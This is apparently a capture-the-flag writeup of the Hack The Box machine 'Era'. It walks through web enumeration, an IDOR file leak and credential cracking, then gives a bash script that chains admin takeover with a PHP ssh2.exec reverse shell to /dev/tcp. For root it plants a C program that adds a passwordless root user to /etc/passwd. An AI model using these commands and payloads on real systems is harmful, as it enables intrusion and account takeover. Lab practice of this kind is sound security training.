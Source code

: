 ```yaml
---
title: HTB Era - Writeup
date: 2025-08-04 10:00:00 +0330
categories: [Writeup]
tags: [web,reverse]
description: My writeup of Era from Hack The Box 

---
```


![infocard](assets/img/Era.png)

## - **Recon & Enum**
Starting with an Nmap scan.
```shell
$ nmap -sC -sV -oN era_nmap --min-rate=1000 -p- era.htb
```
```
Nmap scan report for era.htb (10.10.11.79)
Host is up (0.29s latency).
Not shown: 36659 filtered tcp ports (no-response), 28874 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Era Designs
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
there was nothing interesting on the website, so we start a subdomain enum with gobuster.
```shell
$ gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://era.htb --append-domain
```
```
Found: file.era.htb Status: 200 [Size: 6765]
```

after digging a bit I discovered the register page
```shell
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://file.era.htb -x php --exclude-length 6765
```

```
/images               (Status: 301) [Size: 178] [--> http://file.era.htb/images/]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 9214]
/register.php         (Status: 200) [Size: 3205]
/files                (Status: 301) [Size: 178] [--> http://file.era.htb/files/]
/assets               (Status: 301) [Size: 178] [--> http://file.era.htb/assets/]
/upload.php           (Status: 302) [Size: 0] [--> login.php]
/layout.php           (Status: 200) [Size: 0]
```

## - **User**

When logging in, you can upload files, manage them and most importantly, change security questions of ANY user, but I did not yet have any valid usernames. Looking back, in the security login page we can enumerate valid usernames, which I did using Burpsuite and FFuF. I intercepted the request and copied to a file, then FUZZed usernames.
![](assets/img/era_burp.png)

```
$ ffuf -request Req/username_enum -request-proto http -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -fr 'User not found' 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://file.era.htb/security_login.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Connection: keep-alive
 :: Header           : Referer: http://file.era.htb/security_login.php
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Host: file.era.htb
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : DNT: 1
 :: Header           : Cookie: PHPSESSID=6d7gj2s2fgsigregqnirgsv9rf
 :: Header           : Priority: u=0, i
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Origin: http://file.era.htb
 :: Data             : username=FUZZ&answer1=adjbjch&answer2=jsdbj&answer3=dyhcj
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: User not found
________________________________________________

admin                   [Status: 200, Size: 5401, Words: 1916, Lines: 178, Duration: 721ms]
john                    [Status: 200, Size: 5401, Words: 1916, Lines: 178, Duration: 725ms]
eric                    [Status: 200, Size: 5401, Words: 1916, Lines: 178, Duration: 513ms]
root                    [Status: 200, Size: 5401, Words: 1916, Lines: 178, Duration: 492ms]
hello                   [Status: 200, Size: 5401, Words: 1916, Lines: 178, Duration: 453ms]
test1                   [Status: 200, Size: 5401, Words: 1916, Lines: 178, Duration: 469ms]
ethan                   [Status: 200, Size: 5401, Words: 1916, Lines: 178, Duration: 462ms]
veronica                [Status: 200, Size: 5401, Words: 1916, Lines: 178, Duration: 460ms]
yuri                    [Status: 200, Size: 5401, Words: 1916, Lines: 178, Duration: 467ms]
admin123                [Status: 200, Size: 5401, Words: 1916, Lines: 178, Duration: 470ms]
```
Here the actual usernames which are not likely to be other HTB players, are 
- john
- eric
- ethan
- veronica
- yuri

Now we can login to each of them and see if there are any interesting files, which ther weren't, BUT because the site uses the database id of the file to call it and there in no restriction to see only your own files, we can enumerate other files on there. again I used Burp and FFuF (also made a number list 0-10000 with python).
```
$ ffuf -request Req/file_enum_req -request-proto http -w numbers.txt -fr "File Not Found"
```
and these two are what we needed.
```
54                      [Status: 200, Size: 6378, Words: 2552, Lines: 222, Duration: 2335ms]
150                     [Status: 200, Size: 6366, Words: 2552, Lines: 222, Duration: 4442ms]
```
And like that we have `signing.zip` and `site-backup-30-08-24.zip` files.  
looking into site backup, there is a database file, from there we can get hashes of users and also get username of the admin account, `admin_ef01cab31aa`.
I used hashcat to crack the b2crypt hashes and found two passwords:
- `yuri`:`mustang`
- `eric`:`america`  
I tried logging in with ftp and it succeeded with yuri.  
Also in the download.php file from the zip backup, there is a "beta" view file contents section which we can abuse but to access that beta thingy we need admin privileges, so we simply change secrity answers of admin account.
I got a bit stuck here as php wrappers that I used did not yield results.
looking back at files in the ftp server, in the php config directory there is the ssh2 shared lib which means we can use the 'ssh2.exec://' wrapper.  
![](assets/img/ftp_era.png)

on day 3 or 4 I think, I wrote this script to easily get a reverse shell so I won't have to go through the whole process manually.

```bash
#!/bin/bash

IP="$1"
PORT="$2"

echo -e "--> Logging in as Yuri"
/usr/bin/curl -X POST http://file.era.htb/login.php --data "submitted=true&username=yuri&password=mustang" -b "PHPSESSID=arr6b1scb6mc2foosiaj7kc21n" &>/dev/null

echo -e "--> Resetting security questions for admin"
/usr/bin/curl -X POST http://file.era.htb/reset.php --data "username=admin_ef01cab31aa&new_answer1=0&new_answer2=0&new_answer3=0" -b "PHPSESSID=arr6b1scb6mc2foosiaj7kc21n" &> /dev/null

echo -e "--> Logging in as Admin"
/usr/bin/curl -X POST http://file.era.htb/security_login.php --data "username=admin_ef01cab31aa&answer1=0&answer2=0&answer3=0" -b "PHPSESSID=arr6b1scb6mc2foosiaj7kc21n" &> /dev/null

echo -e "--> Popping the shell"
/usr/bin/curl -b "PHPSESSID=arr6b1scb6mc2foosiaj7kc21n" "file.era.htb/download.php?id=54&show=true&format=ssh2.exec://eric:america@127.0.0.1:22/bash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F$IP%2F$PORT+0%3E%261%22;" --silent & /usr/bin/nc -nvlp $PORT
```

```
$ ./getrevshell.sh 10.10.14.26 9909

--> Logging in as Yuri
--> Resetting security questions for admin
--> Logging in as Admin
--> Popping the shell
listening on [any] 9909 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.11.79] 55910
bash: cannot set terminal process group (8889): Inappropriate ioctl for device
bash: no job control in this shell
eric@era:~$
```

## - **Root**

Navigating through the files, `/opt/AV` caught my eye, the `monitor` binary is run by root every minute (and it is WRITEABLE!) but does nothing special, as it just prints a string, sleeps for 3 secs and prints another string (as you can check yourself with the following command) and the output gets logged in the `status.log` file.
```
$ objdump -d -M intel monitor # this was run on the local machine
```

here I wrote a C program to add a root user with no password, to replace the binary output with monitor.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    printf("TEST TEST TEST");
    system("echo 'my_root::0:0:root:/root:/bin/bash' >> /etc/passwd");
    return 0;
}
```

here I got some errors from objcopy that the binary does not have the `.text_sig` segment, so I included it with `__attribute__((section(".text_sig"))) void my_signature() {}` and tried signing the binary with openssl and the key.pem we got from the signing.zip file but no luck. After some Googling, I found [elf signer](https://github.com/NUAA-WatchDog/linux-elf-binary-signer) and that was the solution.

```
$ ./elf-sign sha1 key.pem key.pem alt monitor  
 --- 64-bit ELF file, version 1 (CURRENT), little endian.
 --- 31 sections detected.
 --- [Library dependency]: libc.so.6
 --- Section 0014 [.text] detected.
 --- Length of section [.text]: 279
 --- Signature size of [.text]: 450
 --- Writing signature to file: .text_sig
 --- Removing temporary signature file: .text_sig
 ```
 
and we got root!

```
eric@era:/opt/AV/periodic-checks$ tail /etc/passwd -n 1
my_root::0:0:root:/root:/bin/bash
eric@era:/opt/AV/periodic-checks$ su my_root
root@era:/opt/AV/periodic-checks#
```

![](assets/img/pwn_era.png)